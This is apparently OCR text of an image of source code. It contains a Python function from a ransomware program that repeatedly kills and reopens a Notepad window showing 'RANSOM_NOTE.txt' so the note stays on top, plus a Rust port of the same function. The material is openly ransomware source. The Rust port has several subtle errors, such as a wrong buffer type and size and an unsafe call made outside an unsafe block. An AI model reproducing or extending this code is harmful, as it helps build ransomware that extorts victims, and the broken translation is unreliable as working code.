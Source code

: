 '''Python:

    def show_ransom_note(self):
        # Open the ransom note
        ransom = subprocess.Popen(['notepad.exe', 'RANSOM_NOTE.txt'])
        count = 0 # Debugging/Testing
        while True:
            time.sleep(0.1)
            top_window = win32gui.GetWindowText(win32gui.GetForegroundWindow())
            if top_window == 'RANSOM_NOTE - Notepad':
                print('Ransom note is the top window - do nothing') # Debugging/Testing
                pass
            else:
                print('Ransom note is not the top window - kill/create process again') # Debugging/Testing
                # Kill ransom note so we can open it agian and make sure ransom note is in ForeGround (top of all windows)
                time.sleep(0.1)
                ransom.kill()
                # Open the ransom note
                time.sleep(0.1)
                ransom = subprocess.Popen(['notepad.exe', 'RANSOM_NOTE.txt'])
            # sleep for 10 seconds
            time.sleep(10)
            count +=1 
            if count == 5:
                break
'''
--------------------------------------------------------------------
'''Rust

use std::process::Command;
use std::thread;
use std::time::Duration;
use winapi::um::winuser::{GetForegroundWindow, GetWindowTextW};
use winapi::shared::minwindef::HWND;
use winapi::ctypes::c_int;
use std::ffi::OsString;
use std::os::windows::ffi::OsStringExt;

fn show_ransom_note() {
    let mut ransom = Command::new("notepad.exe")
        .arg("RANSOM_NOTE.txt")
        .spawn()
        .expect("failed to start notepad");

    let mut count = 0;
    loop {
        thread::sleep(Duration::from_millis(100));

        let hwnd = unsafe { GetForegroundWindow() };
        let mut text = Vec::new();
        let length = unsafe {
            GetWindowTextW(hwnd, text.as_mut_ptr(), text.capacity())
        };
        if length > 0 {
            text.set_len(length as usize);
            let text: OsString = text.iter().map(|&c| c as u16).collect();
            if &text == "RANSOM_NOTE - Notepad" {
                println!("Ransom note is the top window - do nothing");
            } else {
                println!("Ransom note is not the top window - kill/create process again");
                ransom.kill().expect("failed to kill notepad");
                ransom = Command::new("notepad.exe")
                    .arg("RANSOM_NOTE.txt")
                    .spawn()
                    .expect("failed to start notepad");
            }
        }
        thread::sleep(Duration::from_secs(10));
        count += 1;
        if count == 5 {
            break;
        }
    }
}
'''